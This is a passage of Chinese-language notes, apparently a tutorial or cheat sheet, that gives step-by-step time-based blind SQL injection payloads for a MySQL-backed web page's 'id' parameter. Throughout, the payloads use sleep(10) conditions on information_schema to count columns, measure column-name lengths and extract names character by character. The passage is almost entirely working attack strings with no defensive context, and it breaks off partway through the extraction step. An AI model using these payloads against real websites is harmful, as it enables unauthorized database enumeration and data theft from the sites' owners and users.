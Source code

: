    1. 第一个数据表的长度

      ```mysql
      ?id=1" and if((select count(column_name) from information_schema.columns where table_name='第一个数据表') = 个数 ,sleep(10),1)-- qwe
      ```

   2. 第二个数据表的长度

      ```mysql
      ?id=1" and if((select count(column_name) from information_schema.columns where table_name='第二个数据表') = 个数 ,sleep(10),1)-- qwe
      ```

2. 字段长度

   1. 第一个表

      ```mysql
      第一个数据字段 : 
      	?id=1" and if(length(substr((select column_name from information_schema.columns where table_name='第一个表' limit 0,1),1))=个数,sleep(10),1)-- qwe
      ```

      ```mysql
      第二个数据字段 : 
      	?id=1" and if(length(substr((select column_name from information_schema.columns where table_name='第一个表' limit 1,1),1))=个数,sleep(10),1)-- qwe
      ```

   2. 第二个表

      ```mysql
      第一个数据字段 : 
      	?id=1" and if(length(substr((select column_name from information_schema.columns where table_name='第二个表' limit 0,1),1))=长度,sleep(10),1)-- qwe
      ```

      ```mysql
      第二个数据字段 : 
      	?id=1" and if(length(substr((select column_name from information_schema.columns where table_name='第二个表' limit 1,1),1))=长度,sleep(10),1)-- qwe
      ```

      

3. 字段

   1. 第一个表

      ```mysql
      第一个字段 : 
      	and if(ascii(substr((select column_name from information_schema.columns where table_name = '第一个表' limit 0,1),1,1)) = ascii的字符数,sleep(10),1)-- qwe
      	and if(ascii(substr((select column_name from information_schema.columns where table_name = '第一个表' limit 0,1),2,1)) = ascii的字符数,sleep(10),1)-- qwe
      ```
